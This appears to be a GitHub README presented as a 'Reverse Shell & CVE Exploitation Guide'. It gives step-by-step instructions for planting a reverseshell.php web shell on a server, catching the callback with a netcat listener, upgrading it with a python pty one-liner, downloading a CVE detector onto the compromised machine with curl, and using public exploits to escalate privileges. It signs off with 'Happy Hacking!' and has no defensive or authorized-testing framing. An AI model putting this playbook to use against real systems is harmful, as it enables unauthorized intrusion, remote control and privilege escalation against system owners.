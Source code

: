 # Reverse Shell & CVE Exploitation Guide

> Author: **Khayrol Islam**  
> Telegram: [@DevidLuice](https://t.me/DevidLuice)

---

## 1. Upload `reverseshell.php` to Your Host

- First, upload your `reverseshell.php` file to your web server/hosting.
- Then open the URL in your browser:

http://your-host.com/reverseshell.php



📸 **Example Screenshot:**  
![Upload Page](https://github.com/mrTr1cky/linux_priv_Guid-/blob/main/name.png)

---

## 2. Start Netcat Listener

On your machine, run:

nc -lnvp 1337


---

## 3. Enter Your Public IP and Port in `reverseshell.php`

- Input your **public IP address** and the **port** (example: 1337) inside the form of `reverseshell.php`.

📸 **Example Screenshot:**  
![Enter IP/Port](https://github.com/mrTr1cky/linux_priv_Guid-/blob/main/exploit.png)

---

## 4. Receive Reverse Shell

- After entering the IP and port, the server will connect back to your machine.
- You will get a reverse shell in your Netcat terminal.

---

## 5. Upgrade to Full TTY Shell

Once connected, upgrade the shell for better control:


python3 -c 'import pty; pty.spawn("/bin/bash")'



(If `python3` is not available, try `python`.)

---

## 6. Download and Run CVE Detector

Download the Linux CVE detector script:

curl https://raw.githubusercontent.com/mrTr1cky/linux_priv_Guid-/refs/heads/main/cve-detector.sh -o cve-detector.sh

Make it executable:
chmod +x cve-detector.sh
Run the script:

It will scan the system for known vulnerabilities (CVEs).

---

## 7. Exploit Detected Vulnerabilities

- After getting the list of CVEs, find public exploits for them.
- Use the exploits to escalate your privileges on the target system.

---

# 🚀 Happy Hacking!

> Author: **Khayrol Islam**  
> Telegram: [@DevidLuice](https://t.me/DevidLuice)

---

